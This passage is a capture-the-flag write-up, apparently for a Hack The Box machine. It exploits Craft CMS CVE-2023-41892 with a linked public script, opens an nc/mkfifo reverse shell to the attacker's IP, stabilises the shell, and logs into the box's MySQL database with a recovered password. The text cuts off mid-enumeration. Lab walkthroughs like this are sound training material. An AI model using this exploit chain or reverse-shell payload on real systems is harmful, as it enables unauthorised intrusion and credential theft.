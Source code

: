 Lets go ahead to exploit this


# Exploitation

You can download the exploit from [here](https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-cms.py)

To run the exploit

command:`python exploit.py http://surveillance.htb/`

![[Pasted image 20240220003820.png]]

We spawned a shell hehe. Lets get a proper shell by using the payload below

payload:`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.165 1234 >/tmp/f`

>Ensure you edit the LHOST and the LPORT to that which applies to your attacking machine

![[Pasted image 20240220004054.png]]

To stabilize the shell you can use the commands  below

```
python3 -c "import pty;pty.spawn('/bin/bash')"
ctrl + z (To background)
stty raw -echo && fg
export TERM=xterm
```

![[Pasted image 20240220004311.png]]

Cool, now lets go ahead to escalate our privileges


# Privilege Escalation (To Matthew)

Running linpeas, found these interesting stuffs

![[Pasted image 20240220010617.png]]
![[Pasted image 20240220010743.png]]

These are database passwords

Lets try to connect to `craftdb`

command:`mysql -u craftuser -p`

password:`CraftCMSPassword2023!`

![[Pasted image 20240220020153.png]]

Nice Nice, we are connected hehe. Now lets try to dump the user table

```
show databases;
```
